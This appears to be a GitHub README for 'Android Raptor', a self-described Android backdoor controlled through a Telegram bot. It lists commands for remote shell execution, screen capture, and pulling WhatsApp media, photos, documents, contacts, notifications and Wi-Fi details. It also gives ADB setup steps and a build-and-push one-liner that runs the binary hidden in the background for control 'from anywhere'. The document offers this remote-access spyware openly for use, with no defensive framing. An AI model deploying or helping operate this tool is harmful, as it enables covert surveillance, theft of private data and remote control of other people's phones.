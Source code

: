 # Android Raptor
## Backdoor Android and Remote Manager
************ NO ROOT REQUIRED ************

![androidraptorcommands](https://user-images.githubusercontent.com/102340452/192880304-2c4f336d-69cb-4f9c-ae18-1b0c518a0552.png)


## Android Raptor Commands
		/status => ping/pong like
		/ss   	=> Capture And Download Live Screen Capture
		/soff   => Turning Screen Off
		/son    => Turning Screen On
		/sh (any valid shell command [with params]) => Execute Shell Command (ex: ls -la /sdcard/)
		/wsm => Getting All WhatsApp Media Info
		/wsi => Getting WhatsApp Images Info
		/wsis => Getting WhatsApp Images Sent Info
		/wsvs => Getting WhatsApp Videos Sent Info
		/wsv => Getting WhatsApp Videos Info
		/wss => Getting WhatsApp Statuses Info
		/wsvn => Getting WhatsApp Voice Notes Info
		/getp (full path photo) => Download Any Photo From Remote Device
		/getv (full path video) => Download Any Video From Remote Device
		/getd (full path document) => Download Any Document From Remote Device
		/url (https://anyvalidurl.com) => Open An URL In Remote Device Default Browser
		/cam => Start Camera In Remote Device
		/not => Getting All Notifications From Remote Device
		/ua => Getting All Applications Installed By The User
		/gc => Getting All Google Contacts From Remote Device 
		/wfi => Getting Wifi IP From Remote Device 
		/wfm => Getting Wifi MAC Address From Remote Device 
		/wfs => Getting Wifi SSID Name From Remote Device
		/ca => Getting Current Active Activity
		/cp => Getting Current Active Package Name
		/capp (package name) => Close App
		/isson => Know If The Screen Is On
		/sup => Send Swipe Up Gesture
		/getbl => Getting Current Battery Percentage Level
		/shutdown => Shutdown The Remote Device
		/reboot => Reboot The Remote Device    
-----------------------------------------------------------------
## Installation:

 ##### In your Android Device:
- Go to Settings
- Go to “About device” (Might be named slightly different)
- Click the “Build number” field 7 times. This will turn on “Developer options”
- Go back to Settings
- Go to “Developer options”
- Scroll down and enable “USB debugging”
- Plug the device into computer

##### On a computer run the following commands in terminal to initialize ADB:
- sudo apt install adb
- adb start-server
- git clone https://github.com/elieser9001/AndroidRaptor.git
- cd AndroidRaptor

Your device might prompt you with a trust dialog. Click accept.

##### On Telegram:
- [Create a new Telegram bot with BotFather](https://learn.microsoft.com/en-us/azure/bot-service/bot-service-channel-connect-telegram?view=azure-bot-service-4.0#create-a-new-telegram-bot-with-botfather)
- Copy and save the Telegram bot's access token for later steps.
- [Get Your Telegram User Id](https://medium.com/@tabul8tor/how-to-find-your-telegram-user-id-6878d54acafa)

## Build and Execute in Your Android Mobile Device
GOARCH=arm64 GOOS=linux go build -ldflags "-s -w" -o androidraptor main.go && adb push androidraptor /data/local/tmp/androidraptor && adb shell 'chmod 777 /data/local/tmp/androidraptor' && adb shell "nohup ./data/local/tmp/androidraptor -uid TELEGRAM_USER_ID -abk API_BOT_ACCESS_TOKEN &>/dev/null &"

- Now you can unplugg your mobile device and control it from anywhere through the bot in Telegram.
